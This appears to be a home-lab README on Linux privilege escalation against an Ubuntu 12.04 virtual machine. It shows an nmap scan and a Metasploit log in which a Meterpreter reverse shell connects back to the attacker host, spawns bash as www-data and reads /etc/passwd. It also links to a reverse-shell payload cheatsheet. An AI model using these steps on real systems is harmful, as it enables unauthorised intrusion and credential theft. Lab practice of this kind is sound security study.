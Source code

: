 That is how to elevate your privilegs on a Linux system through the use of kernel exploit.

# Home Lab
Target:
```
192.168.248.132
```

[OpenSSH Server](https://ubuntu.com/server/docs/service-openssh)

[How to copy files from one machine to another using ssh](https://unix.stackexchange.com/questions/106480/how-to-copy-files-from-one-machine-to-another-using-ssh)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

[Logining into www-data](https://ubuntuforums.org/showthread.php?t=2280551)

[升级已经结束生命周期的Ubuntu](https://help.ubuntu.com/community/EOLUpgrades)

[安装apache](https://ubuntu.com/server/docs/web-servers-apache)

[How to copy files from one machine to another using ssh](https://unix.stackexchange.com/questions/106480/how-to-copy-files-from-one-machine-to-another-using-ssh)

```
┌──(root㉿kali)-[~]
└─# nmap -sV 192.168.248.132
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-27 23:12 EDT
Nmap scan report for 192.168.248.132
Host is up (0.000053s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
MAC Address: 00:0C:29:D1:6F:51 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds
```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.248.148:1234 
[*] Sending stage (3020772 bytes) to 192.168.248.132
[*] Meterpreter session 1 opened (192.168.248.148:1234 -> 192.168.248.132:49452) at 2022-10-27 23:19:04 -0400

meterpreter > sysinfo
Computer     : 192.168.248.132
OS           : Ubuntu 12.04 (Linux 3.2.0-23-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > shell
Process 1660 created.
Channel 1 created.
/bin/bash -i
www-data@ubuntu:/opt/exploits$ groups www-data
groups www-data
www-data : www-data
www-data@ubuntu:/opt/exploits$ cat /etc/passwd
cat /etc/passwd
```